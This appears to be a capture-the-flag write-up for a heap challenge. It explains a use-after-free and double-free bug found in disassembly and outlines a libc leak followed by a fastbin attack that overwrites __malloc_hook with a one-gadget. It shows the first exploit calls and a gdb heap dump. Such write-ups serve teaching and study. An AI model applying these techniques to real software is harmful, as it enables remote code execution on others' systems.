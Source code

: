 ### Binary Overview

```
1. Allocate
2. Pray for Allah
3. Free
4. Read
5. Run away
```

Classic stuff. We get to allocate, free and read chunks. Free and read work by providing an index inside a global array of malloc pointers.


### Vulnerability


The vulnerability can be found in the following assembly snippet:

```asm
00400c8a  mov     eax, dword [rbp-0xc {index}]
00400c8d  mov     eax, eax
00400c8f  mov     rax, qword [rax*8+0x602100]
00400c97  mov     rdi, rax
00400c9a  call    free
00400ca0  mov     rax, qword [rbp-0x8]
00400ca4  xor     rax, qword fs:[0x28]
             [...]
```

Once a chunk is free'd, its corresponding index in the mallocptr array (0x602100) isn't zeroed out. That gives us a UAF and a double-free
bug. 

### Plan

We're going to exploit the aforementioned bugs in the following way:

* Allocate 2 small chunks. 

* Freeing the 1st one (be careful not to free the 2nd one because it will consolidate with the top chunk) in order to populate its FD/BK pointers to main arena.

* Call read on the 1st chunk in order to leak the main arena pointer to calculate libc's base address. Thanks to the UAF vuln we're able to do that.

* Perform fastbin attack in order to overwrite __malloc_hook with one gadget RCE.


### Exploit Visualization 

```python
alloc(0x100, 'A'*10) # chunk 0
alloc(0x100, 'B'*10) # chunk 1
```

```
(gdb) x/60gx 0x0000000000603000
0x603000:	0x0000000000000000	0x0000000000000111  <-- chunk 0 [in use]
0x603010:	0x4141414141414141	0x00000000000a4141
0x603020:	0x0000000000000000	0x0000000000000000
0x603030:	0x0000000000000000	0x0000000000000000
0x603040:	0x0000000000000000	0x0000000000000000
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000000000
0x603090:	0x0000000000000000	0x0000000000000000
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
```